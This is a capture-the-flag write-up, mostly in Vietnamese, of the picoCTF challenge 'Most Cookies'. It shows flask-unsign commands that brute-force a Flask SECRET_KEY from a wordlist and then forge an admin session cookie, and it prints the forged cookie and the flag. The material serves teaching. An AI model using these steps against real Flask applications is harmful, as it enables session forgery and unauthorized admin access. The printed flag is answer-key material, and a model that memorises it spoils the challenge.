





# Most Coookies

**Category**: Web Exploitation

**Difficulty**: Medium

**Author**: madStacks

---

## Desciption Challenge

> Alright, enough of using my own encryption. Flask session cookies should be plenty secure!
>
> Hints: How secure is a flask cookie?

---

## Reconnaissance Analysis

Sau khi thử nhập vào cookie search page, tiến hành bắt request và xem cấu hình:



Đây là dạng chuẩn thư viện itsdangerous thuộc Python Flask.

--> Có thể suy nghĩ đến việc đổi từ `blank` sang `admin` xem có thể bypass k.

Từ gợi ý, Flask cookie không hề được mã hóa mà chỉ được ký số bằng thuật toán HMAC. Để ngăn chặn người dùng sửa blank thành admin, Flask dùng một SECRET_KEY để tạo chữ ký HMAC gắn kèm.

--> Có thể thử tiến hành brute-force để tìm ra SECRET_KEY xem có khả thi không.

## Exploitation

Dựa vào danh sách wordlist đã cho từ server.py đã cho , thử tiến hành brute-force để dò secret key bằng công cụ flask-unsign với cookie hiện tại:



```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aoeedQ.UvM4QLuXGHGCrSJckexwMAdobmU" --wordlist wordlist.txt
```

Thu được SECRET_KEY = `kiss`



Tiến hành tạo và ký số một cookie mới chứa payload với đặc quyền admin: `'very_auth':'admin'`

```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret "kiss"
```



Thu được cookie mới là: 

`eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aoefxQ.wOMglyfUvzBk_mm1TgRoOtAvYbM`

Thay thế cookie hiện tại bằng cookie vừa tạo r reload page:



flag is: `picoCTF{cO0ki3s_yum_e45c084f}`
